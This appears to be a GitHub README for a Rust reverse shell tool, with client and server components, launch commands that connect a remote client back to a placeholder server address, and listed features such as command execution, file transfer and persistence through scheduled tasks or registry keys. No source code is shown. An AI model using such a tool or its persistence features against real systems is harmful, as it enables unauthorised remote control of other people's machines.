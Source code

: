 
# Reverse Shell

This repository contains a reverse shell implementation written in Rust. It consists of a client and a server component that can be used to establish a remote connection for executing commands or transferring data.

## Components

### Client

The client component is responsible for initiating the reverse shell connection to the server. When executed, it will connect back to the specified server address and port, establishing a channel for communication.

### Server

The server component listens for incoming connections from the client. Once a connection is established, it provides an interface for executing commands on the remote system (where the client is running) and receiving the output.

## Usage

1. Start the server component by running:

```
cargo run --bin server -- --listen-addr [SERVER_IP]:[SERVER_PORT]
```

Replace `[SERVER_IP]` and `[SERVER_PORT]` with the appropriate IP address and port number where the server should listen for incoming connections.

2. On the remote system, run the client component to initiate the reverse shell connection:

```
cargo run --bin client -- --connect-addr [SERVER_IP]:[SERVER_PORT]
```

Replace `[SERVER_IP]` and `[SERVER_PORT]` with the same IP address and port number used for the server.

3. Once the connection is established, you can interact with the remote system by executing commands in the server interface.

## Features

- Encrypted communication channel
- Support for executing arbitrary commands
- File transfer capabilities
- Persistence mechanisms (e.g., scheduled tasks, registry keys)

## Contributing

Contributions to this project are welcome! If you find any issues or have ideas for improvements, please open an issue or submit a pull request.

## Disclaimer

This reverse shell tool is provided for educational and research purposes only. It should be used only on systems or networks where you have explicit permission to perform security assessments. Any unauthorized or unlawful use is strictly prohibited.
